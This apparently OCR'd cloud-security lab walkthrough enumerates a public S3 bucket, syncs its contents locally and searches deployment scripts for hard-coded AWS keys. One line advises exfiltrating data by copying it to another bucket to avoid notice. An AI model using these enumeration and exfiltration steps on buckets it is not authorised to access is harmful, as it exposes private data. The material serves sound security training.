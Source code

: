 #### Downloading the Bucket
- First review the contents
```bash
aws s3 ls staticcontent-mit9cfx8fn4lnr01
```
- First, we can determine this is most likely an entire git repository based off the .git directory. Next, we'll discover a Jenkinsfile that points to this potentially being part of a pipeline. We'll inspect this file more closely later. We also find a scripts directory that might be interesting.
- Let's first download all the content we can from the bucket. We know we have access to the images/ folder, but do we have access to the README.md file? Let's use the aws s3 command, this time with the cp operation to copy README.md from the staticcontent-mit9cfx8fn4lnr01 bucket to the current directory. We also need to add the s3:// directive to the bucket name to instruct the AWS CLI that we're copying from an S3 bucket and not a folder.
- If there is a large amount of sensitive information that could be valuable, we may attempt to exfiltrate data by copying it to another AWS S3 bucket rather than directly downloading it.
- Using the AWS S3 cp command allows faster transfers between buckets and gives us more time to access the data later without drawing immediate attention. Always monitor unusual S3 bucket activities and apply strict access control policies.
```bash
aws s3 cp s3://staticcontent-mit9cfx8fn4lnr01/README.md ./
```
-The README makes note of the scripts directory and how to upload to S3. Now that we know we can load the README.md file, let's try to download the rest of the bucket and inspect those scripts. We'll start by making a new directory called static_content. We'll then use the aws s3 command, but with the sync operator to sync all the contents from a source to a destination. We'll specify s3://staticcontent-mit9cfx8fn4lnr01 as the source and the newly created directory as the destination.
```bash
mkdir static_content
aws s3 sync s3://staticcontent-mit9cfx8fn4lnr01 ./static_content/
cd static_content/
```
- Let's start by reviewing the script in scripts/upload-to-s3.sh. Based on the contents of the README, we can assume this is the script used to upload the contents to S3. In this file, we're searching for any potential hard-coded AWS access keys that the developer may have forgotten about.
```bash
cat scripts/upload-to-s3.sh  # Below information in the script
# Upload images to s3
SCRIPT_DIR=$( cd -- "$( dirname -- "${BASH_SOURCE[0]}" )" &> /dev/null && pwd )
AWS_PROFILE=prod aws s3 sync $SCRIPT_DIR/../ s3://staticcontent-mit9cfx8fn4lnr01/ 
```
- Unfortunately for us, the script contains no secrets. It seems to be fairly straightforward and only uploads the content of the repo to S3. Let's list the scripts directory and check if other scripts contain useful information.
```bash
cat -n update-readme.sh  # Below content in the file
     1  # Update Readme to include collaborators images to s3
     2
     3  SCRIPT_DIR=$( cd -- "$( dirname -- "${BASH_SOURCE[0]}" )" &> /dev/null && pwd )
     4
     5  SECTION="# Collaborators"
     6  FILE=$SCRIPT_DIR/../README.md
     7
     8  if [ "$1" == "-h" ]; then
     9    echo "Update the collaborators in the README.md file"
    10    exit 0
    11  fi
    12
    13  # Check if both arguments are provided
    14  if [ "$#" -ne 2 ]; then
    15    # If not, display a help message
    16    echo "Usage: $0 USERNAME PASSWORD"
    17    exit 1
    18  fi
    19
    20  # Store the arguments in variables
```